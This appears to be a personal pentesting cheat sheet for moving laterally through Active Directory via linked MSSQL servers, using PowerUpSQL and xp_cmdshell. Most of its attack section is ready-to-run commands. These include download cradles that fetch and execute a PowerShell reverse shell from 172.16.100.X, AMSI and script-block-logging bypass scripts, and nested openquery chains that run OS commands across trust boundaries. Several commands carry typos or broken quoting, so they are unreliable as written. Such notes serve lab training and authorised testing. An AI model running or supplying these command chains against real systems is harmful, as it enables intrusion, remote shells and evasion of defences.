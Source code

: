 # AD - MSSQL

## MSSQL Server - Data

### Description

* SQL Servers provide very good options for laterla movement as domain users can be mapped to databse roles
* Database Links allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources
* In case of databse Links between SQL Servers => linked SQL Servers - it is possible to execute stored procedures
* Database links work even accros forest/domain trusts - nothing limits it

### Requirement

* SPN and active SQL Server

### Tool

* PowerUpSQL [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Discovery (SPN Scanning)**

{% code overflow="wrap" %}
```powershell
Get-SQLInstanceDomain

//Gets all SPNs which start with MSSQL - maybe no SQL Server is running (anymore)
```
{% endcode %}

**Check Accessibility**

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose
```

**Gather Informatione**

```powershell
Get-SqlInstnaceDomain | Get-SQLServerInfor -verbose
```

**Search for database Links**

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-SQLServerLink -Instance hostname_of_mssql_server -verbose
</strong>  On all sqlinstances from above
<strong>❗Get-SQLServerLinkCrawl -Instance hostname_of_mssql_server -verbose
</strong>
-or-

select * from master..sysservers 
//do it in HeidiSQL Portable / Hostname of mssqlserver &#x26; Windows Auth
</code></pre>

**Enumerating DB Links manually**

{% code overflow="wrap" %}
```sql
select * from openquery("nextHost",'select * from master.sysservers')
select * from openquery(""nextHost",'select * from openquery("nexNextHost","select * from master.sysservers")')
```
{% endcode %}

**Executing commands**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'whoami'"
</strong><strong>
</strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'powershell download cradle"
<strong>
</strong>Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http:// 172.16.100.X/Invoke-PowerShellTcp.ps1'')"' –QueryTarget eu-sql
<strong>
</strong>Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(http:// 172.16.100.X/sbloggingbypass.ps1);iex (New-Object Net.WebClient).DownloadString(http:// 172.16.100.X/amsibypass.txt);iex (New-Object Net.WebClient).DownloadString(http:// 172.16.100.X/Invoke-powershelltcpex.ps1)"' –QueryTarget eu-sql
<strong>
</strong>//this runs accross all links
=> only for eu-sql we get an output
</code></pre>

**Executing Commands**\
****Target server should have xp\_cmdshell or rpcout (disabled by default)

* If rpcout is enalbed, you can enable xp\_cmdshell using\
  EXECUTE('sp\_configure "xp\_cmdshell",1;reconfigure;') AT "link-name"
* Use the -QuertyTarget parameter to run Query on a specific instance (without -QueryTarget the command tries to use xp\_cmdshell on every link of the chain)&#x20;

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql

From the initial SQL Server, OS commands can be executed using nested link queries:
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select
@@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```
{% endcode %}

